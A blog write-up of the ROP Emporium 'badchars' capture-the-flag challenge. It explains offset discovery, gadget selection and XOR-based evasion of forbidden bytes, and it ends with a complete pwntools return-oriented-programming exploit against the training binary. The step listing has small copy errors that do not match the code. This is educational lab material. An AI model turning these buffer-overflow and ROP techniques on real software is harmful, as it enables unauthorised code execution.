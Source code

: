 ```yaml
---
layout: post
title: ropemporium - badchars
date: 2024-12-30 13:37:00 +0300
description: 
img: ropemporium-badchars/badchars-cover.png
fig-caption: 
tags:
  - ctf
---
```

This challenge will cover the concepts of evading the bad chars.
The information given to us during the challenge was that we still have helping functions and gadgets.

Analyzing the program to check the protection we have the following info:

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241230135146.png)

- Partial RELRO
- NX enabled

Executing the program first, it came out with the badchars that would break our chain, and they where:
- `x` Character - Hex code 0x78 - 120 Decimal 
- `g` Character - Hex code 0x67 - 103 Decimal
- `a` Character - Hex code 0x61 - 97 Decimal
- `.` Character - Hex code 0x2e - 46 Decimal

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241230141243.png)

With that in mind, it's considered that any payload inserted after the overflow will crash or corrupt if any of the given characters are present.

Beginning with the detection of the offset, sending the pattern created by *msf-pattern_create* gave the exact match at offset 40

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241230140343.png)

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241230140329.png)

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241230140310.png)

Before thinking about forging the *ROP* chain, the logic for it must be constructed so the reason behind each step is clear.

Thinking on it, I came with an idea of how the exploit would work:
- Build a "**flag.txt**" string swapping the badchars of it (`a`, `g`, `.` and `x`) into a random valid one (e.g. "**fl49_t3t**");
- Send it to some writable and readable place in memory;
- Use gadgets to manipulate the swapped bytes of the string into the string that we want, so turning "**fl49_t3t**" into "**flag.txt**";
- Call the "**print_file()**" function passing the string address as parameter.

So first of all, we need to find a writable and readable place in memory to put the string on it.

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241231001159.png)

Looking at the writable+readable sections the program have, the "**.data**" was selected due to the lack of contents used by the program inside of it.

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241231001218.png)

Now it's time to gather useful gadgets in order to craft our *ROP* chain properly, having in mind that the badchars work both for strings and addresses, so if some address contain any of the invalid character bytes, it will fail.

The *ROPgadget* tool have the feature to avoid searching for gadgets containing badchars, helping to avoid invalid addresses.

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241231005401.png)

So, whilst searching for them filtering out the badchars, some interesting gadgets appeared.

```c
0x400634 : mov qword ptr [r13], r12 ; ret
0x40069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x400628 : xor byte ptr [r15], r14b ; ret
0x4006a3 : pop rdi ; ret
```

There was an interesting *XOR* gadget found and selected to execute operations in the "**fl49_t3t**" string and turn it into a "**flag.txt**". But how to do it?

To discover how to *XOR* a value into a desired value, we just have to execute the operation in the existent value. Clearly saying, to discover which value will turn an "A" into a "B", you just need to *XOR* both these values to discover the result.

Defining that into a python function, it was discovered which values should be used together with the values in the string that should be replaced.

```python
def xorable(src,dst):
    return ord(src)^ord(dst)
```

So when using together with the swapped char, we have the specific values to turn the wrong string into the correct "**flag.txt**".

```python
xorable('9','g') # Will return the value used to turn '9' into 'g'
```

So now we know how to use that *XOR* gadget in our favour!

With those gadgets at hand, the *ROP* chain was built and an unexpected thing happened when sending the payload, and it was noticed a bad char while trying to send the position address for the last bad char inside the string.

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241230225912.png)

So the address had a bad char too!

The workaround was to add a byte into the base address, so when the last position was sent, no bad chars would be present, and the last position would be `0x60102f`.

The final logic was the following:
```
Fill
gdg: POP from R12 to R15
    r12 > b'fl49_t3t' - avoiding bad chars
    r13 > .data address 
    r14 > Value to XOR and turn '4' to 'a'
    r15 > address of .data+2
gdg: XOR into [r15] from r14b > will transform 4 into a
gdg: MOV into [r13] from r12
gdg: POP from R12 to R15
    r12 > Garbage
    r13 > Garbage
    r14 > Value to XOR and turn '9' to 'g'
    r15 > address of .data+3
gdg: XOR into [r15] from r14b > will transform 4 into a
gdg: POP from R12 to R15
    r12 > Garbage
    r13 > Garbage
    r14 > Value to XOR and turn '_' to '.'
    r15 > address of .data+4
gdg: XOR into [r15] from r14b > will transform 4 into a
gdg: POP from R12 to R15
    r12 > Garbage
    r13 > Garbage
    r14 > Value to XOR and turn '3' to 'x'
    r15 > address of .data+6
gdg: XOR into [r15] from r14b > will transform 4 into a
gdg: POP RDI
    RDI > DATA_SECTION
print_file@plt Address
```

Putting it all together in the final exploit, the flag was then received.

![](../assets/img/ropemporium-badchars/Pasted%20image%2020241230234954.png)

Final exploit:
{% highlight python %}
from pwn import *

def xorable(src,dst):
    return ord(src)^ord(dst)

elf = context.binary = ELF('./badchars')

BUFFER_FILL = b'A'*40
DUMMY = p64(0xbeefbeefbeefbeef)
PRINT_FILE_PLT = p64(0x400510)
GADGET_MOV_R13_ptrR12 = p64(0x400634)
GADGET_POP_R12toR15 = p64(0x40069c)
GADGET_XOR_R15_R14b = p64(0x400628)
GADGET_POP_RDI = p64(0x4006a3)
DATA_SECTION = p64(0x601029)

chain = BUFFER_FILL
chain += GADGET_POP_R12toR15
chain += b'fl49_t3t'
chain += DATA_SECTION
chain += p64(xorable('4','a'))
chain += p64(0x601029+2) # DATA_SECTION+2
chain += GADGET_MOV_R13_ptrR12
chain += GADGET_XOR_R15_R14b
chain += GADGET_POP_R12toR15
chain += DUMMY
chain += DUMMY
chain += p64(xorable('9','g'))
chain += p64(0x601029+3) # DATA_SECTION+3
chain += GADGET_XOR_R15_R14b
chain += GADGET_POP_R12toR15
chain += DUMMY
chain += DUMMY
chain += p64(xorable('_','.'))
chain += p64(0x601029+4) # DATA_SECTION+4
chain += GADGET_XOR_R15_R14b
chain += GADGET_POP_R12toR15
chain += DUMMY
chain += DUMMY
chain += p64(xorable('3','x'))
chain += p64(0x601029+6) # DATA_SECTION+6
chain += GADGET_XOR_R15_R14b
chain += GADGET_POP_RDI
chain += DATA_SECTION
chain += PRINT_FILE_PLT

io = process(elf.path)
io.send(chain)
io.interactive()
{% endhighlight %}